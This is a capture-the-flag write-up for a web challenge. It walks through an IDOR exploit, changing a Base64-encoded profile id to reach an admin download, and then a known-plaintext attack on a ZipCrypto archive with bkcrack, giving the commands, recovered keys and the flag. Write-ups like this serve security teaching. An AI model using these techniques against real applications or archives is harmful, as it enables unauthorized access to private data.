

# I-DO The Veiled Vow

**Category:** Web
**Flag:** `UMCS{f581ff80-ebc5-4724-ada8-6f7648137b39}`

## Challenge Overview



> *"The OmniCorp CEO is getting married! Standard guests can view the public memo, but VIPs receive a secure, encrypted archive. Can you bypass the guest list, obtain the VIP secret, and uncover what lies hidden behind the veil?"*

## Initial Enumeration / Recon

The challenge presents a portal for OmniCorp employees. Clicking "View Public Memo" returns:

```
You are cordially invited to the wedding of the OmniCorp CEO.
Date: November 15
Venue: OmniCorp Grand Ballroom
Dress Code: Strictly Black Tie
```

Entering the portal and logging in as `id=1` with any password sets the URL to:

```
http://.../profile?id=MQ%3D%3D
```

`MQ==` is Base64 for the integer `1`.

## Vulnerability Analysis — IDOR

The application uses Base64-encoded integers to identify user profiles but performs **no authorization check**. Admin accounts typically get ID `0`. Base64 of `0` is `MA==`, URL-encoded as `MA%3D%3D`.

## Exploitation Steps

**Step 1 — Access the admin profile (IDOR):**

Navigate to:
```
http://.../profile?id=MA%3D%3D
```

This loads the "VIP Bridal Suite (Admin)" panel with a button to download `vip_invite.zip`.

**Step 2 — Analyse the ZIP:**

```
vip_invite.zip:
  flag.txt*    (43 bytes,  encrypted, CRC32: F7997718)
  invite.txt*  (141 bytes, encrypted, CRC32: 865A4329)
```

Both files are encrypted with **Legacy ZipCrypto**. The admin panel notes: *"The standard public memo text was used as a base document inside [the archive]."* — we already have that plaintext.

This is a **known-plaintext attack** — ZipCrypto is broken when you have ≥12 bytes of known plaintext.

**Step 3 — Known-plaintext attack with bkcrack:**

```bash
./bkcrack -C ../vip_invite.zip -c invite.txt -p plain_lf.txt
# Keys: 2eba9177 307b0708 7d6c750c
```

**Step 4 — Decrypt flag.txt:**

```bash
./bkcrack -C ../vip_invite.zip -k 2eba9177 307b0708 7d6c750c \
    -U decrypted.zip password

unzip decrypted.zip
cat flag.txt
# UMCS{f581ff80-ebc5-4724-ada8-6f7648137b39}
```

## Flag

```
UMCS{f581ff80-ebc5-4724-ada8-6f7648137b39}
```

Two vulnerabilities chained: IDOR to access the admin download, then a known-plaintext attack against Legacy ZipCrypto. ZipCrypto is cryptographically broken and should never be used when the plaintext is known or predictable — always use AES-256 encryption in ZIP.
